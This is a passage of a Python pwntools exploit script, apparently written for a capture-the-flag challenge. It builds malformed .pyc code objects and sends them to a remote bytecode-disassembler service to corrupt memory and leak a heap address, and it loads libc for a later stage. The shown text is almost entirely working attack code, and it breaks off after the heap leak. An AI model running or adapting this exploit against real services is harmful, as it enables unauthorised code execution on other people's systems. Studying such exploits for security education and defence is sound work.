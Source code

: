 ```python
    date = 0
    pay = p32(magic) + p32(date)
    # a code object with ref, so that None is pushed to list[0]
    pay += p8(0x80^ord("c"))
    # argsize nlocals stacksize flags
    pay += p32(0) + p32(0) + p32(0) + p32(0)
    # code (LOAD_CONST)
    code = p8(100) + p32(0)
    pay += string_object(code)
    # consts, names, varnames, freevars, cellvars, filename, name
    pay += float_object(b"\x00"*0xFF)
    pay += float_object(what.ljust(0xFF, b"\x00"))
    return pay

def exp3(cmd):
    magic = 0x0a0df303
    date = 0
    pay = p32(magic) + p32(date)
    # a code object with ref, so that None is pushed to list[0]
    pay += p8(0x80^ord("c"))
    # argsize nlocals stacksize flags
    pay += p32(0) + p32(0) + p32(0) + p32(0)
    # code (LOAD_CONST)
    code = p8(100) + p32(0)
    pay += string_object(code)
    # consts, names, varnames, freevars, cellvars, filename, name
    pay += string_object(cmd)
    return pay

def feng1():
    magic = 0x0a0df303
    date = 0
    pay = p32(magic) + p32(date)
    # a code object
    pay += b"c"
    # argsize nlocals stacksize flags
    pay += p32(0) + p32(0) + p32(0) + p32(0)
    # code (LOAD_GLOBAL)
    code = p8(116) + p32(0)
    pay += string_object(code)
    # consts, names, varnames, freevars, cellvars, filename, name
    pay += string_object(b"\x00"*0x590)
    pay += string_object(b"\x00"*0x100)
    return pay

def load(data):
    p.sendlineafter("[2] Print disassembly\n", "1")
    p.sendlineafter("Enter length: ", str(len(data)))
    p.send(data)

def disassemble(index):
    p.sendlineafter("[2] Print disassembly\n", "2")
    p.sendlineafter("Enter index: ", str(index))

if __name__ == "__main__":

    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    p = remote(sys.argv[1], int(sys.argv[2]))
    # leak a heap address
    load(heap_leak_pyc())
    disassemble(0)
    p.recvuntil("LOAD_GLOBAL              ")
    HEAP = u64(p.recvline().strip(b"\n").ljust(8,b"\x00"))
```